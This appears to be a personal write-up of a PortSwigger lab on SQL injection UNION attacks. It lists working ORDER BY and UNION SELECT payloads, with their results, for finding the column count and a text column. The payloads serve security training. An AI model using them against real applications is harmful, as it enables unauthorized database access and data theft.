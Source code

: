 # Lab: SQL Injection UNION attack – Finding a column containing text - [Link](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

---

### Goal:

Make the database retrieve the string: `'ZUA5jF'`
You must find **which column** can hold text (i.e., string data type).

---

## Step-by-step:

### 1. Determine number of columns

Test with `ORDER BY` until it breaks:

```sql
' ORDER BY 1--        → OK  
' ORDER BY 2--        → OK  
' ORDER BY 3--        → OK  
' ORDER BY 4--        → ERROR  
```

Means: **3 columns**


### 2. Determine data types in each column (to find which one supports **text**)

Try:

```sql
' UNION SELECT NULL,NULL,NULL--        → OK  
' UNION SELECT 'a',NULL,NULL--         → ERROR  
' UNION SELECT NULL,'ZUA5jF',NULL--    → OK — Challenge solved
```

Column **2** accepts text
The lab was automatically solved when the correct string was retrieved.
